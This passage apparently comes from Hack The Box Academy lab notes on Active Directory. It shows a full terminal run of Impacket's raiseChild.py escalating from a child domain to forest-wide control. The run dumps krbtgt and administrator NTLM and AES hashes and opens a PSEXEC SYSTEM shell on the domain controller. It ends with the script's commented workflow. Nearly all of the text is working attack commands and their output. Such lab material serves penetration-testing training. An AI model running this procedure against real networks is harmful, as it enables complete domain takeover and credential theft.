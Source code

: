 ```
Yashfren@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file BnEGssCE.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service UVNb on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service UVNb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Stopping service UVNb.....
[*] Removing service UVNb.....
[*] Removing file BnEGssCE.exe.....
```
The script lists out the workflow and process in a comment as follows:
```python
#   The workflow is as follows:
#       Input:
#           1) child-domain Admin credentials (password, hashes or aesKey) in the form of 'domain/username[:password]'
#              The domain specified MUST be the domain FQDN.
#           2) Optionally a pathname to save the generated golden ticket (-w switch)
#           3) Optionally a target-user RID to get credentials (-targetRID switch)
#              Administrator by default.
#           4) Optionally a target to PSEXEC with the target-user privileges to (-target-exec switch).
#              Enterprise Admin by default.
#
#       Process:
#           1) Find out where the child domain controller is located and get its info (via [MS-NRPC])
#           2) Find out what the forest FQDN is (via [MS-NRPC])
```